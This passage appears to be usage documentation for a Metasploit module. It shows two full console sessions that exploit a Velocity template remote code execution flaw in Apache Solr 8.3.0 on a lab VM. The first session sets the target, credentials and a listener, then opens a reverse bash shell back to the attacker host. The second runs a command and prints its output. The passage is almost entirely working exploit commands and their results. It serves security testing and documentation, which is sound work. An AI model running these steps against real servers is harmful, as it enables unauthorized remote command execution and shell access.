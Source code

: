 ### Bitnami Solr VM 8.3.0, requiring basic authentication, command execution in-memory, with payload `cmd/unix/reverse_bash`
```
msf5 > use exploit/multi/http/solr_velocity_rce
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.129
RHOSTS => 192.168.137.129
msf5 exploit(multi/http/solr_velocity_rce) > set RPORT 80
RPORT => 80
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET 0
TARGET => 0
msf5 exploit(multi/http/solr_velocity_rce) > set USERNAME user
USERNAME => user
msf5 exploit(multi/http/solr_velocity_rce) > set PASSWORD j6lzH82e6Jc5
PASSWORD => j6lzH82e6Jc5
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf5 exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 4.9.0-11-amd64
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[*] Command shell session 17 opened (192.168.137.128:4444 -> 192.168.137.129:48600) at 2020-03-29 00:20:50 +0800

id
uid=999(solr) gid=1002(solr) groups=1002(solr)
```

### Bitnami Solr VM 8.3.0, requiring basic authentication, command execution in-memory, with payload `cmd/unix/generic`
```
msf5 > use exploit/multi/http/solr_velocity_rce
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.129
RHOSTS => 192.168.137.129
msf5 exploit(multi/http/solr_velocity_rce) > set RPORT 80
RPORT => 80
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET 0
TARGET => 0
msf5 exploit(multi/http/solr_velocity_rce) > set USERNAME user
USERNAME => user
msf5 exploit(multi/http/solr_velocity_rce) > set PASSWORD j6lzH82e6Jc5
PASSWORD => j6lzH82e6Jc5
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf5 exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/http/solr_velocity_rce) > set CMD whoami
CMD => whoami
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 4.9.0-11-amd64
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[+] solr
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/solr_velocity_rce) >
```